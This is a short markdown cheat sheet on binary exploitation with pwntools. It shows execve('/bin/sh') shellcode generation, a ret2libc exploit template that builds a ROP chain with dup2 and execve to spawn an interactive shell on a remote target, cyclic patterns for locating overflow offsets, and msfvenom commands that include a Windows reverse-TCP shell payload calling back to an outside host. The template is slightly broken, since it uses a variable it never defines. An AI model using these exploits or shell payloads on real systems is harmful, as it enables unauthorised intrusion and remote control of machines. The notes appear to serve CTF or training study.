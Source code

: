 # pwntools

## Functions

 - shellcode = ELF("a.out").section(".text")
 - print(disasm(shellcode))
 - shellcraft 

```bash
$ pwn shellcraft -l 'amd64.linux' # List available shellcodes
$ pwn shellcraft amd64.linux.sh -r # run a shellcode
$ python3                         
>>> from pwn import *
>>> context(os="linux", arch="amd64", log_level="error")
>>> syscall = shellcraft.execve(path='/bin/sh',argv=['/bin/sh']) 
>>> print(syscall)
... asm ...
>>> bin = asm(syscall)
>>> ELF.from_bytes(bin).save("a.out")
```


## RET2LIBC Example

```python
from pwn import *
from hexdump import hexdump

#
# /!\ Specify the context
#
context.clear(arch = 'amd64')

s = remote(HOST, PORT) # work also with local process: process()
s.send(b'content')
data = s.recv(16)

rip = struct.unpack('<Q', data[0:8]) # Read unsigned long long, little endian
# Other formats: https://docs.python.org/3/library/struct.html#format-characters

libc = ELF('/path/to/libc')

# <Address in memory of libc> = <address of a function> - <address shift of the function in libc> 
# $ cat /proc/self/maps
base_libc = write_addr - libc.symbols['write']

# Set base address of libc, useful to get correct value
libc.address = base_libc

# Example of simple ROP
rop = ROP(libc)
rop.dup2(4, 0)
rop.dup2(4, 1)
bin_sh = next(libc.search(b'/bin/sh\x00'))
rop.execve(bin_sh, 0, 0)

# Shorter version: shellcraft.amd64.dupsh(4), arch="amd64")
# https://docs.pwntools.com/en/stable/shellcraft/amd64.html#pwnlib.shellcraft.amd64.linux.dupsh
gadget_pop = rop.find_gadget(['pop rdi', 'ret'])


ROP_EXECVE = rop.chain()

s.send(ROP_EXECVE)

# Transform into interactive shell
s.interactive()
```

    
   
## Buffer Overflow

### cyclic strings to find overflow points

 - With pwntools:

```python
from pwn import *
g = cyclic_gen()
payload = g.get(10000)
# once crash, call find to have the min payload
g.find(b"abcd")
```

 - With msf: `msf-pattern_create -l 5000` then `msf-pattern_offset -q <int value from registry or string pattern>`

### Building shellcode

 - `msf-nasm_shell`
 - Windows payload to execute calc.exe and -b to specify any bad characters : `msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00\x0A\x0D'`
 - `msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.10.10 LPORT=1234 -f 'python'`
 - [Online ASM/DISASM](https://defuse.ca/online-x86-assembler.htm)
 - Take care of invalid bytes that might stop the reading of the payload by the program
